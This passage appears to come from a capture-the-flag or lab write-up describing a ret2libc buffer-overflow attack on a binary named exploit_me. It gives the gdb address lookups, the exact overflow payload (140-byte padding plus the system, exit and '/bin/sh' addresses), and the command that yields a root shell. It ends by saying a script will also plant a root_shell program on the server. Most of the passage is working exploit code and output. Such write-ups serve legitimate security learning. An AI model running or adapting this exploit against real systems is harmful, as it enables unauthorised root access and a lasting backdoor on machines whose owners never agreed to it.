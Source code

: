 The address of the fucntion system is `0xb7e6b060`

```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xb7e5ebe0  exit
0xb7e5ec10  on_exit
0xb7e5ee20  __cxa_atexit
0xb7e5efc0  quick_exit
0xb7e5eff0  __cxa_at_quick_exit
0xb7ee41d8  _exit
0xb7f28500  pthread_exit
0xb7f2dc10  __cyg_profile_func_exit
0xb7f4c750  svc_exit
0xb7f56c80  atexit
```

The address of the function exit is `0xb7e5ebe0`

We have all the informations, now build the payload

```
140 offset + system + JUNK = exit + /bin/sh


"A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"
```

Exploit!

```
$ ./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X���
# whoami
root
```

We are root! Script it now

In the script we also creating a root_shell program on the server. Better for have a real root shell
